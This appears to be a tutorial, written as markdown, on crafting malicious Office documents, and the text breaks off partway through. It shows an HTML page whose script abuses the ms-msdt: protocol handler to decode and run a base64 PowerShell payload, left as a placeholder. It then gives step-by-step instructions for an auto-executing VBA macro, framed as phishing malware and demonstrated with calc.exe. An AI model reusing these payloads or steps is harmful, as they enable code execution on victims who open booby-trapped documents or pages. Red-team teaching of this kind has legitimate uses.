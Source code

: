 ```
Proin a interdum justo. Duis sed dui vitae ex molestie egestas et tincidunt neque. Fusce lectus tellus, pharetra id ex at, consectetur hendrerit nibh. Nulla sit amet commodo risus. Nulla sed dapibus ante, sit amet fringilla dui. Nunc lectus mauris, porttitor quis eleifend nec, suscipit sit amet massa. Vivamus in lectus erat. Nulla facilisi. Vivamus sed massa quis arcu egestas vehicula. Nulla massa lorem, tincidunt sed feugiat quis, faucibus a risus. Sed viverra turpis sit amet metus iaculis finibus.

Morbi convallis fringilla tortor, at consequat purus vulputate sit amet. Morbi a ultricies risus, id maximus purus. Fusce aliquet tortor id ante ornare, non auctor tortor luctus. Quisque laoreet, sem id porttitor eleifend, eros eros suscipit lectus, id facilisis lorem lorem nec nibh. Nullam venenatis ornare ornare. Donec varius ex ac faucibus condimentum. Aenean ultricies vitae mauris cursus ornare. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas aliquet felis vel nulla auctor, ac tempor mi mattis. Nam accumsan nisi vulputate, vestibulum nisl at, gravida erat. Nam diam metus, tempor id sapien eu, porta luctus felis. Aliquam luctus vitae tortor quis consectetur. In rutrum neque sit amet fermentum rutrum. Sed a velit at metus pretium tincidunt tristique eget nibh. In ultricies, est ut varius pulvinar, magna purus tristique arcu, et laoreet purus elit ac lectus. Ut venenatis tempus magna, non varius augue consectetur ut.

Etiam elit risus, ullamcorper cursus nisl at, ultrices aliquet turpis. Maecenas vitae odio non dolor venenatis varius eu ac sem. Phasellus id tortor tellus. Ut vehicula, justo ac porta facilisis, mi sapien efficitur ipsum, sit fusce.
</p>
<script>
    location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'<base64 payload>'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"";
</script>

</body>
</html>
```

# VBA Macro

In malware wild, macro malware is typically transmitted through phishing emails that contain malicious attachments. When the macros run, malware coded into the VBA will begin to infect all files that are opened using Microsoft Office. In our case, we will only execute a calc.exe app.

First, open Microsoft Office and then Press `Alt` + `F11` on your keyboard. The action will bring us to Macro Editor.
![image](https://user-images.githubusercontent.com/56353946/203387945-2cd55bd1-8227-4d1c-b1c1-154009b0d511.png)

On "Project (Document1)" path, click `ThisDocument`:
![image](https://user-images.githubusercontent.com/56353946/203388151-40943f11-58ed-4339-9e42-c64c2a56c47b.png)

Write our malicious macro code, for example:
```
Private Sub Document_Open()
Test
End Sub

Private Sub DocumentOpen()
Test
End Sub

Private Sub Auto_Open()
Test
End Sub

Private Sub AutoOpen()
Test
```